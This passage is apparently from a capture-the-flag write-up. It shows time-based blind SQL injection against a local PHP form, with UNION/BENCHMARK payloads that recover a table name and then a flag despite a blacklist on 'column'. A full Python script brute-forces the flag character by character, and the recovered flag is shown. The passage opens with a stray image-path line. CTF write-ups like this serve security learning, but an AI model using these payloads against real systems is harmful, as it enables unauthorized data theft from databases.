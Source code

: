 <p><code>QUERY = "' UNION SELECT null,null,(IF(BINARY SUBSTRING((SELECT table_name FROM information_schema.tables where TABLE_SCHEMA = database() and table_name != 'info'),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"</code><br>
-> Table: <code>get_point</code></p>
<h3 id="extractflag">Extract flag</h3>
<p>Because <code>column</code> is in black list, we have to extract data without column name. Follow hint to <a href="https://tsublogs.wordpress.com/2017/06/07/pentest-qa-cung-tsu-5-sql-injection-without-information_schema/"><strong>@tsu</strong> blog</a><br>
The flag index is 2 in <code>get_point</code> table:<br>
<code>QUERY = "' UNION SELECT null,null,(IF(SUBSTRING((SELECT col_1 from (SELECT 1 as col_1 union select * from get_point limit 1 offset 2) x_table),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"</code></p>
<h3 id="fullscript">Full script</h3>

```python
import string, requests

# Extract table name
QUERY = "' UNION SELECT null,null,(IF(BINARY SUBSTRING((SELECT table_name FROM information_schema.tables where TABLE_SCHEMA = database() and table_name != 'info'),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"
# Extract flag
QUERY = "' UNION SELECT null,null,(IF(SUBSTRING((SELECT col_1 from (SELECT 1 as col_1 union select * from get_point limit 1 offset 2) x_table),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"
URL = "http://localhost:8007/index.php"
data = {
    "name": "whatever",
    "email": QUERY
}
list_chars = string.printable.replace('%','')
output = ""
pos = 0
while True:
    pos += 1
    for char in list_chars:
        data = {
            "name": "whatever",
            "email": QUERY.format(char=char, pos=str(pos))
        }
        request = requests.post(URL,data=data)
        if (request.elapsed.total_seconds() > 0.5): # True
            output += char
            print("[*] Output: " + output + "...")
            break

# PTITCTF{u_Kn0w_7ha7_15_5ql_71M3ba53d_1nJ3c710n}
```
